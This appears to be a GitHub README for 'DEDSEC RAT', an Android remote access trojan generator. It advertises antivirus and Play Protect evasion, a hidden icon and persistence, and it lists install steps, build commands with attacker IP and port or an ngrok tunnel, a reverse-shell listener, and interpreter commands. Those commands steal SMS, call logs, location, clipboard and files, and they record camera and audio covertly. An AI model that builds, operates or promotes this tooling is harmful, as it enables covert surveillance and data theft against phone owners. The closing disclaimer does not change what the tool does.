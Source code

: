 <h1 align="center"> DEDSEC RAT </h1>
<p align="center"> DEDSEC RAT is a tool can create undetectable payload for android 10-12 and control android phone remotely and retrieve informations from it. </p> 

## Features
* Full persistent backdoor
* Google Play Protect bypass
* Fully undetectable by android 10 - 12 antivirus scanner
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device

## Prerequisites
* Python3 and JAVA (or Android Studio)
* sudo - [ MUST ]

## Installation
```
git clone https://github.com/0xbitx/dedsec-payload-generator.git
cd dedsec-payload-generator
pip install -r requirements.txt
```
### TESTED ON FOLLOWING:
* Kali Linux
* Parrot OS
* Ubuntu
* Arch Linux

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  sudo python3 dedsec-fud.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "dedsec-payload.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  sudo python3 dedsec-fud.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  sudo python3 dedsec-fud.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```sudo python3 dedsec-fud.py --build --ngrok -o payload.apk```

* To build the apk using desired ip and port:
```sudo python3 dedsec-fud.py --build -i 192.169.x.x -p 8000 -o payload.apk```

* To get the interpreter:
```sudo python3 dedsec-fud.py --shell -i 0.0.0.0 -p 8000```
 

<h1 align="center"> DISCLAIMER </h1>

<h4 align="center">I'm not responsible for anything you do with this program, so please only use it for good and educational purposes. </h4>


